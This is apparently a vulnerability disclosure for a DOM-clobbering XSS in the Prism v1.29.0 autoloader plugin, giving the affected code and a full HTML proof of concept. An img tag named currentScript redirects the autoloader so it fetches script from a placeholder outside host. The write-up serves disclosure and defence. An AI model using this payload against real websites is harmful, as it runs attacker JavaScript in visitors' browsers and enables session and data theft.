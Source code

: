 ## Prism

### Meta

+ Library: Prism
+ Stars: 12.2K
+ Version: v1.29.0
+ Fingerprint: `typeof window.Prism !== 'undefined'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx/a.js"></img>```
+ Impact: XSS
+ CVE: N/A
+ Foundby: TheHulk
+ TheThing: None

### Library

URL:
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.min.js`

https://github.com/PrismJS/prism

### Vulnerable Code Snippet

```js
currentScript: function () {
				if (typeof document === 'undefined') {
					return null;
				}
				if ('currentScript' in document && 1 < 2 /* hack to trip TS' flow analysis */) {
					return /** @type {any} */ (document.currentScript);
				}
                ...
			},
```

```js
var script = Prism.util.currentScript();
if (script) {
    var autoloaderFile = /\bplugins\/autoloader\/prism-autoloader\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;
    var prismFile = /(^|\/)[\w-]+\.(?:min\.)?js(?:\?[^\r\n/]*)?$/i;

    var autoloaderPath = script.getAttribute('data-autoloader-path');
    if (autoloaderPath != null) {
        // data-autoloader-path is set, so just use it
        languages_path = autoloaderPath.trim().replace(/\/?$/, '/');
    } else {
        var src = script.src;
        if (autoloaderFile.test(src)) {
            // the script is the original autoloader script in the usual Prism project structure
            languages_path = src.replace(autoloaderFile, 'components/');
        }
    }
}
```

## PoC

host malicious file at `/components/prism-css.min.js`

```html
<!DOCTYPE html>
<html>
<head>
<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/themes/prism.css" integrity="sha512-jtWR3pdYjGwfw9df601YF6uGrKdhXV37c+/6VNzNctmrXoO0nkgHcS03BFxfkWycOa2P2Nw9Y9PCT9vjG9jkVg==" crossorigin="anonymous" referrerpolicy="no-referrer" />
</head>

<body>

<img name=currentScript src="http://localhost:8000/a.js"></img>

<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/components/prism-core.js" integrity="sha512-jhk8ktzYxeUWJ/vx3Lzp53xE0Jgsp+UxA3wDyRSYeMBdPutgCp6jiGvTjyZm+R7cn3Lu/0MnEIR421EOdl3qAg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prism/1.29.0/plugins/autoloader/prism-autoloader.js"></script>

<pre><code class="language-css">p { color: red }</code></pre>

</body>
</html>
```
